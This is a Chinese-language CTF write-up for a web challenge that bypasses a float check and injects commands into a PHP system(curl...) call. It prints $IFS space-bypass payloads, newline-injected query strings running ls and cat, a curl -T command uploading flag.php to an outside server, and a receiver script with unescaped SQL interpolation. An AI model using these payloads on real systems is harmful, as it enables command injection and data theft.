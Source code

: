 ## web100-1 WriteUp 

---------------  

#### 此题是全国大学生CTF联赛的真题 

$num=0.9999999999999999999999999999999999999999999999  利用浮点数精度绕过



住要看 system(curl$cmd/flag);

$cmd不允许存在空格...
要读取文件,必须要构造一个空格出来,

利用Shell 脚本中有个变量叫IFS(Internal Field Seprator) ，内部域分隔符
echo $IFS   | od -b  

最后 
```
$cmd=$IFS\file:///$PWD/flag.php
```
或者 

```
$cmd=$IFS\file:///var/www/html/exam/flag.php$IFS\    
$cmd=$IFS"file:///$PWD/"
$cmd=curl -T flag.php http://自己的服务器/getflag.php < ./flag.php
```
getflag.php 
```
   <?php
    $db = new mysqli('localhost', 'root', 'root', 'getflag');
    $t = file_get_contents('php://input');
    $db->query("INSERT INTO `getflag` (`flag`) VALUES('{$t}')");
    ?>
```
    
    我发现的:$cmd=$IFS\-x$IFS\wonderkun.cc$IFS\-T$IFS\flag.php$IFS\http
    
---
另一种做法可以绕过过滤 : 
`?num=0.99999999999999999&cmd=$1%09file://$PWD/getflag.php%0a1`

---
还有再来一种做法 : 
```
?num=0.99999999999999999&cmd=0%0als%0a0
?num=0.99999999999999999&cmd=0%0acat<getflag.php%0a0
```